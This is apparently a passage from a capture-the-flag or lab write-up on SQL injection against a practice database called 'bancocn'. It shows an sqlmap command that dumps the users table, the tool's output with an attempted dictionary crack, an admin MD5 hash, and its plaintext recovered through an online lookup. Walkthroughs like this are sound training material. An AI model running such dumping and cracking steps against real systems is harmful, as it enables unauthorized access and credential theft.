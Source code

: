 ```bash
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | mediumint(9) |
| login    | varchar(50)  |
| password | varchar(50)  |
+----------+--------------+
```

> `sqlmap -r headers.txt --batch -D bancocn -T users -C id,login,password --dump`

```bash
---
[20:42:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[20:42:31] [INFO] fetching entries of column(s) 'id,login,password' for table 'users' in database 'bancocn'
[20:42:32] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[20:42:32] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[20:42:32] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[20:42:32] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:42:32] [INFO] starting 12 processes 
[20:42:37] [WARNING] no clear password(s) found                                                                                                                                       
Database: bancocn
Table: users
[1 entry]
+----+-------+----------------------------------+
| id | login | password                         |
+----+-------+----------------------------------+
| 1  | admin | 7b71be0e85318117d2e514ce2a2e222c |
+----+-------+----------------------------------+
```

- [Hash Identifier](https://hashes.com/en/tools/hash_identifier)

`7b71be0e85318117d2e514ce2a2e222c - Possible algorithms: MD5`

- [MD5 Decryption](https://www.md5online.org/md5-decrypt.html)
```
LOGIN : admin
Found : senhafoda
(hash = 7b71be0e85318117d2e514ce2a2e222c)
```
